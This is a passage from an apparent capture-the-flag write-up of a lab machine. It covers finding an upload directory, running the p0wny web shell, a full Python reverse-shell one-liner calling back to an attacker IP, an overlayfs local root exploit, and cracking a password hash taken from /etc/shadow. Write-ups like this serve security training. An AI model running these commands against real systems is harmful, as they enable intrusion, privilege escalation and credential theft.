 
Running dir/file bruteforce we have the uploads folder, definitely that is where our shell is


![](https://i.imgur.com/O81GDsW.png)


Using this [**p0wny shell**](https://github.com/flozz/p0wny-shell/blob/master/shell.php) i got from a friend, i was able to execute commands, because other shell kept breaking as said earlier 🥱


![](https://i.imgur.com/t944jie.png)


Since python 3 is installed we can go ahead and get reverse shell with that from [revshells.com](https://revshells.com)



![](https://i.imgur.com/TziHM1v.png)



We got shell as user **www-data**, using this python payload and `rlwrap` for shell stabilization


```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.34",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](https://i.imgur.com/Z0SyA4j.png)

To get root cos' we are in a container (confirm with command - `cat /etc/os-release`) - Which is vulnerable to an  unpopular [overlayfs](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/) 😂

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
$ setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```


We can then go ahead and copy user **drwilliam** hash from `/etc/shadow` and then attempt to crack it


![](https://i.imgur.com/zMQ9HGC.png)


We can therefore login to the **webmail** service running on port 443 with user **drwilliams** credential we cracked (Password Re-use 🤟)


![](https://i.imgur.com/qDXPntO.png)



We now have this message focusing on GhostScript and `.eps`

